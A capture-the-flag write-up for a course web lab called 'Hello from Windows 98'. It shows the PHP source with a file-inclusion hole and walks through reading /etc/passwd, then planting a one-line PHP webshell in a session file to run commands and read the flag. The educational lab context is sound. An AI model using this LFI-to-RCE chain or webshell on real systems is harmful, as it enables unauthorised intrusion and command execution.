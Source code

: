 ```yaml
---
title: Simple Web 0x01(Lab - Hello from Windows 98)
tags: [CTF, Web, eductf]

category: "Security > Course > NTU CS > Web"
---
```


# Simple Web 0x01(Lab - Hello from Windows 98)
###### tags: `CTF` `Web` `eductf`
Challenge: https://windows.ctf.zoolab.org/

Very similar to [0x07(Lab - `HakkaMD`)](/nGAjlvyURtOcRBW1XfCfOA)

## Source code
:::spoiler code
```php!=
 <?php
  session_start();
  if(isset($_GET['source'])){
    highlight_file('./'.$_GET['source'].'.php');
    die();
  }
  if(isset($_GET['name']) && $_GET['name']!=''){
    $_SESSION['name'] = $_GET['name'];
    header("Location: /?page=hi.php");
    die();
  }
  if(!isset($_GET['page'])){
    header("Location: /?page=say.php");
    die();
  }
?>
<!DOCTYPE html>
<html>
<head>
  <title>Hello from Windows 98</title>
  <meta charset="UTF-8" />
  <link rel="stylesheet" href="https://unpkg.com/98.css" />
</head>
<style>
    body{
        background: url('blue.png');
        background-size: cover;
        display: flex;
        align-items: center;
        justify-content: center;
        height: 100vh;
        margin: 0;
    }
</style>
</style>
<body>
  <div class="window" style="margin: 32px; width: 500px">
    <div class="title-bar">
      <div class="title-bar-text">
        Hello World..
      </div>
      <div class="title-bar-controls">
        <button aria-label="Minimize"></button>
        <button aria-label="Maximize"></button>
        <button aria-label="Close"></button>
      </div>
    </div>
    <div class="window-body">
      <?php include($_GET['page']);?>
    </div>
  </div>
</body>
</html>

```
:::

## Exploit - LFI to RCE
1. First things first, the website has `LFI` problem
`https://windows.ctf.zoolab.org/?page=/etc/passwd`
![](https://i.imgur.com/2BHfWtQ.png)

2. <font color="FF0000">**通靈**</font>
It didn't provide any information about system, so we can assume the setting is default at first.

3. `webshell`
`<?php system($_GET['sh']); ?>`
↓
We use `LFI` to read session file:
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829`
![](https://i.imgur.com/gAnKZGF.png)
It execute system function successfully.
↓
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829&sh=ls%20/var/www/html`
↓
![](https://i.imgur.com/JOOmyyl.png)
↓
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829&sh=cat%20/var/www/html/flag.txt`
4. Then we got flag!!!